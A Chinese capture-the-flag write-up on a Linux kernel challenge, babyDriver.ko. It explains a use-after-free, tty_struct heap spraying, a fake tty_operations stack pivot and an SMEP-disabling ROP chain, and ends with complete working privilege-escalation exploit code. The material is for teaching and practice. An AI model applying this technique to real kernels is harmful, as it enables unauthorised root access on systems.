










作者：k0shl 转载请注明作者博客：http://whereisk0shl.top
这次又是ling带我Carry系列，ling真是太厉害了！这次比赛有一道Linux Kernel PWN，我对内核非常感兴趣的，但平时做Windows比较多，这次有一次能够直接接触Linux Kernel exploit的机会，自然不会错过，和ling一起做这题，受益匪浅，学到了很多东西，其实Linux Kernel PWN和Windows Kernel PWN有很多相同的地方，下面一起进入这次Linux Kernel PWN吧！
首先题目给了一套系统环境，利用qemu启动，nc连接比赛环境后会得到一个低权限的shell，同时题目给了一个babyDriver.ko，通过insmod将驱动加载进系统，先进行环境搭建，我们使用的是qemu，根据题目给的boot.sh可以得到qemu的启动命令。
qemu-system-x86_64 -initrd rootfs.cpio -kernel bzImage -append 'console=ttyS0 root=/dev/ram oops=panic panic=1' -enable-kvm -monitor /dev/null -m 64M --nographic -smp cores=1,threads=1 -cpu kvm64,+smep
这里需要提的一点是很多人都是虚拟机里的Linux安装的qemu，这里有可能会报一个KVM的错误，这里需要开启虚拟机/宿主机的虚拟化功能。

启动后我们可以进入当前系统，如果要调试的话，我们需要在qemu启动脚本里加一条参数-gdb tcp::1234 -S，这样系统启动时会挂起等待gdb连接，进入gdb，通过命令
Target remote localhost:1234
Continue
就可以远程调试babyDriver.ko了。
通过IDA打开babyDriver.ko，这个驱动非常简单，实现的都是一些基本功能

关于驱动通信网上有很多介绍，这里我不多介绍了，这个驱动存在一个伪条件竞争引发的UAF漏洞，也就是说，我们利用open(/dev/babydev,O_RDWR)打开两个设备A和B，随后通过ioctl会释放掉babyopen函数执行时初始化的空间，而ioctl可以控制申请空间的大小。
__int64 __fastcall babyioctl(file *filp, __int64 command, unsigned __int64 arg, __int64 a4)
{
_fentry__(filp, command, arg, a4);
v5 = v4;
if ( (_DWORD)command == 65537 )//COMMAND需要为0x10001
{
kfree(babydev_struct.device_buf);//释放初始化空间
LODWORD(v6) = _kmalloc(v5, 37748928LL);//申请用户可控空间
babydev_struct.device_buf = v6;
babydev_struct.device_buf_len = v5;
printk("alloc done\n", 37748928LL);
result = 0LL;
}
else
{
printk(&unk_2EB, v4);
result = -22LL;
}
return result;
}
所以这里我们申请的buffer可控，再仔细看write和read函数，都做了严格的判断控制，似乎漏洞不在这里。
if ( babydev_struct.device_buf )//判断buf必须有值
{
result = -2LL;
if ( babydev_struct.device_buf_len > v4 )//判断malloc的空间大小必须大于用户读写空间大小
正如之前所说，这个漏洞是一个伪条件竞争引发的UAF，也就是说，我们通过open申请两个设备对象A和B，这时候释放设备对象A，通过close关闭，会发现设备对象B在使用设备对象A的buffer空间。这是因为A和B在使用同一个全局变量。
因此，释放设备A后，当前全局变量指向的空间成为释放状态，但通过设备对象B可以调用write/read函数读写该空间的内容。
我们就能构造一个简单的poc，通过open申请设备对象A和B，ioctl对A和B初始化一样大小的空间，通过kmalloc申请的空间初始化后都为0，随后我们通过close的方法关闭设备对象A，这时候再通过write，向设备对象B的buffer写入。
首先会将buffer的值交给rdi，并且做一次检查。
.text:00000000000000F5 ; 7: if ( babydev_struct.device_buf )
.text:00000000000000F5 mov filp, cs:babydev_struct.device_buf
.text:00000000000000FC test rdi, rdi
.text:00000000000000FF jz short loc_125
rdi寄存器存放的就是buffer指针。

可以看到，指针指向的空间的值已经不是初始化时候覆盖的全0了。

当前目标缓冲区内已经由于释放导致很多内容不为0，这时候，我们同样可以通过read的方法读到其他地址，获取地址泄露的能力。

在test之后泄露出来了一些额外的值，因此可以通过read的方法来进行info leak。
既然这片空间是释放的状态，那么我们就可以在这个空间覆盖对象，同时，我们可以通过对设备B的write/read操作，达到对这个内核对象的读写能力，ling提到了tty_struct结构体，这是Linux驱动通信一个非常重要的数据结构，关于tty_struct结构体的内容可以去网上搜到。
于是整个问题就比较明朗了，我们可以通过这个漏洞来制造一个hole，这个hole的大小可以通过ioctl控制，我们将其控制成tty_struct结构体的大小0x2e0，随后close关闭设备A，通过open(/dev/ptmx)的方法申请大量的tty_struct结构体，确保这个结构体能够占用到这个hole，之后通过对设备B调用write/read函数完成对tty_struct结构体的控制。
首先我们按照上面思路，编写一个简单的poc。
fd = open("/dev/babydev",O_RDWR);
fd1 = open("/dev/babydev",O_RDWR);
//init babydev_struct
printf("Init buffer for tty_struct,%d\n",sizeof(tty));
ioctl(fd,COMMAND,0x2e0);
ioctl(fd1,COMMAND,0x2e0);
当close(fd)之后，我们利用open的方法覆盖tty_struct，同时向tty_struct开头成员变量写入test数据，退出时会由于tty_struct开头成员变量magic的值被修改导致异常。

接下来，我们只需要利用0CTF中一道很有意思的内核题目KNOTE的思路，在tty_struct的tty_operations中构造一个fake oprations，关键是修改其中的ioctl指针，最后达成提权效果。
首先，我们需要利用设备B的read函数来获得占位tty_struct的头部结构，然后才是tty_operations。

当然，通过启动命令我们可以看到，系统开启了smep，我们需要构造一个rop chain来完成对cr4寄存器的修改，将cr4中smep的比特位置0，来关闭smep。
unsigned long rop_chain[] = {
poprdiret,
0x6f0, // cr4 with smep disabled
native_write_cr4,
get_root_payload,
swapgs,
0, // dummy
iretq,
get_shell,
user_cs, user_rflags, base + 0x10000, user_ss};
解决了SMEP，我们就能完成最后的提权了。至此，我们可以将整个利用过程按照如下方式完成，首先利用设备A和B，close设备A，释放buffer，同时设备B占用同一个buffer空间，用tty_struct对象占位，然后设备B的write/read函数可以完成对tty_struct的读写。
至此，我们要构造fake struct来控制rip。

我们通过覆盖tty_struct中的tty_operations，来将fake tty_operations的ioctl函数替换掉，改成stack pivot，之后我们调用ioctl函数的时候相当于去执行stack pivot，从而控制rip。
当然，这个ioctl的设备对象不能是设备B，而是需要tty_struct喷射时所使用的的设备对象，tty_struct的喷射使用open方法完成。
for(i=0;i<ALLOC_NUM;i++)
{
m_fd[i] = open("/dev/ptmx",O_RDWR|O_NOCTTY);
if(m_fd[i] == -1)
{
printf("The %d pmtx error\n",i);
}
}
由于tty_operations->ioctl被修改，转而去执行stack pivot，从而获得控制rip的能力，这样通过stack pivot，就可以进入我们rop chain了。
之后我们通过get root payload来完成提权。
root_payload(void)
{
commit_creds(prepare_kernel_cred(0));
}
由于这道题目的环境没有KASLR，所以内核地址都没有变化，可以直接写死，当然，如果内核地址有变化也没有关系，通过设备B的read方法可以读到内核地址，算出基址，再加上偏移，一样可以得到commit_cred和prepare_kernel_cred的地址。
最后通过get shell完成提权，获得root权限。


这道题目本身难度不大，主要是利用方面挺有意思，听说也很基础，对于我这种Linux kernel的初学者来说学到了很多东西，再次感谢队友！
同样，我觉得这道题作为Linux kernel pwn的入门来说也非常合适，可以练习调试，利用等等，希望师傅们多多交流。Have fun and PWN！
编译命令：gcc -Os -static babydriverexp.c -lutil -o babydriverexp
最后放上完整的Exploit代码：
#define _GNU_SOURCE
#include <stdio.h>
#include <string.h>
#include <unistd.h>
#include <stdlib.h>
#include <sched.h>
#include <errno.h>
#include <pty.h>
#include <sys/mman.h>
#include <sys/socket.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <sys/syscall.h>
#include <fcntl.h>
#include <sys/ioctl.h>
#include <sys/ipc.h>
#include <sys/sem.h>
#define COMMAND 0x10001
#define ALLOC_NUM 50
struct tty_operations
{
struct tty_struct *(*lookup)(struct tty_driver *, struct file *, int); /* 0 8 */
int (*install)(struct tty_driver *, struct tty_struct *); /* 8 8 */
void (*remove)(struct tty_driver *, struct tty_struct *); /* 16 8 */
int (*open)(struct tty_struct *, struct file *); /* 24 8 */
void (*close)(struct tty_struct *, struct file *); /* 32 8 */
void (*shutdown)(struct tty_struct *); /* 40 8 */
void (*cleanup)(struct tty_struct *); /* 48 8 */
int (*write)(struct tty_struct *, const unsigned char *, int); /* 56 8 */
/* --- cacheline 1 boundary (64 bytes) --- */
int (*put_char)(struct tty_struct *, unsigned char); /* 64 8 */
void (*flush_chars)(struct tty_struct *); /* 72 8 */
int (*write_room)(struct tty_struct *); /* 80 8 */
int (*chars_in_buffer)(struct tty_struct *); /* 88 8 */
int (*ioctl)(struct tty_struct *, unsigned int, long unsigned int); /* 96 8 */
long int (*compat_ioctl)(struct tty_struct *, unsigned int, long unsigned int); /* 104 8 */
void (*set_termios)(struct tty_struct *, struct ktermios *); /* 112 8 */
void (*throttle)(struct tty_struct *); /* 120 8 */
/* --- cacheline 2 boundary (128 bytes) --- */
void (*unthrottle)(struct tty_struct *); /* 128 8 */
void (*stop)(struct tty_struct *); /* 136 8 */
void (*start)(struct tty_struct *); /* 144 8 */
void (*hangup)(struct tty_struct *); /* 152 8 */
int (*break_ctl)(struct tty_struct *, int); /* 160 8 */
void (*flush_buffer)(struct tty_struct *); /* 168 8 */
void (*set_ldisc)(struct tty_struct *); /* 176 8 */
void (*wait_until_sent)(struct tty_struct *, int); /* 184 8 */
/* --- cacheline 3 boundary (192 bytes) --- */
void (*send_xchar)(struct tty_struct *, char); /* 192 8 */
int (*tiocmget)(struct tty_struct *); /* 200 8 */
int (*tiocmset)(struct tty_struct *, unsigned int, unsigned int); /* 208 8 */
int (*resize)(struct tty_struct *, struct winsize *); /* 216 8 */
int (*set_termiox)(struct tty_struct *, struct termiox *); /* 224 8 */
int (*get_icount)(struct tty_struct *, struct serial_icounter_struct *); /* 232 8 */
const struct file_operations *proc_fops; /* 240 8 */
/* size: 248, cachelines: 4, members: 31 */
/* last cacheline: 56 bytes */
};
typedef int __attribute__((regparm(3))) (*_commit_creds)(unsigned long cred);
typedef unsigned long __attribute__((regparm(3))) (*_prepare_kernel_cred)(unsigned long cred);
_commit_creds commit_creds = 0xffffffff810a1420;
_prepare_kernel_cred prepare_kernel_cred = 0xffffffff810a1810;
unsigned long native_write_cr4 = 0xFFFFFFFF810635B0;
unsigned long xchgeaxesp = 0xFFFFFFFF81007808;
unsigned long poprdiret = 0xFFFFFFFF813E7D6F;
unsigned long iretq = 0xFFFFFFFF8181A797;
unsigned long swapgs = 0xFFFFFFFF81063694;
void get_root_payload(void)
{
commit_creds(prepare_kernel_cred(0));
}
void get_shell()
{
printf("is system?\n");
char *shell = "/bin/sh";
char *args[] = {shell, NULL};
execve(shell, args, NULL);
}
struct tty_operations fake_ops;
char fake_procfops[1024];
unsigned long user_cs, user_ss, user_rflags;
static void save_state()
{
asm(
"movq %%cs, %0\n"
"movq %%ss, %1\n"
"pushfq\n"
"popq %2\n"
: "=r"(user_cs), "=r"(user_ss), "=r"(user_rflags)
:
: "memory");
}
void set_affinity(int which_cpu)
{
cpu_set_t cpu_set;
CPU_ZERO(&cpu_set);
CPU_SET(which_cpu, &cpu_set);
if (sched_setaffinity(0, sizeof(cpu_set), &cpu_set) != 0)
{
perror("sched_setaffinity()");
exit(EXIT_FAILURE);
}
}
int main()
{
int fd = 0;
int fd1 = 0;
int cmd;
int arg = 0;
char Buf[4096];
int result;
int j;
struct tty_struct *tty;
int m_fd[ALLOC_NUM],s_fd[ALLOC_NUM];
int i,len;
unsigned long lower_addr;
unsigned long base;
char buff2[0x300];
save_state();
set_affinity(0);
memset(&fake_ops, 0, sizeof(fake_ops));
memset(fake_procfops, 0, sizeof(fake_procfops));
fake_ops.proc_fops = &fake_procfops;
fake_ops.ioctl = xchgeaxesp;
//open two babydev
printf("Open two babydev\n");
fd = open("/dev/babydev",O_RDWR);
fd1 = open("/dev/babydev",O_RDWR);
//init babydev_struct
printf("Init buffer for tty_struct,%d\n",sizeof(tty));
ioctl(fd,COMMAND,0x2e0);
ioctl(fd1,COMMAND,0x2e0);
//race condition
printf("Free buffer 1st\n");
close(fd);
printf("Try to occupy tty_struct\n");
for(i=0;i<ALLOC_NUM;i++)
{
m_fd[i] = open("/dev/ptmx",O_RDWR|O_NOCTTY);
if(m_fd[i] == -1)
{
printf("The %d pmtx error\n",i);
}
}
printf("Let's debug it\n");
lower_addr = xchgeaxesp & 0xFFFFFFFF;
base = lower_addr & ~0xFFF;
if (mmap(base, 0x30000, 7, MAP_PRIVATE | MAP_ANONYMOUS, -1, 0) != base)
{
perror("mmap");
exit(1);
}
unsigned long rop_chain[]= {
poprdiret,
0x6f0, // cr4 with smep disabled
native_write_cr4,
get_root_payload,
swapgs,
0, // dummy
iretq,
get_shell,
user_cs, user_rflags, base + 0x10000, user_ss};
memcpy(lower_addr, rop_chain, sizeof(rop_chain));
//uaf here
len = read(fd1, buff2, 0x20);
if(len == -1)
{
perror("read");
exit(-1);
}
//printf("read len=%d\n", len);
*(unsigned long long*)(buff2+3*8) = &fake_ops;
len = write(fd1, buff2, 0x20);
if(len == -1)
{
perror("write");
exit(-1);
}
for(j =0; j < 4; j++)
{
printf("%p\n", *(unsigned long long*)(buff2+j*8));
}
printf("get shell\n");
for(i = 0; i < 256; i++)
{
ioctl(m_fd[i], 0, 0);//FFFFFFFF814D8AED call rax
}
}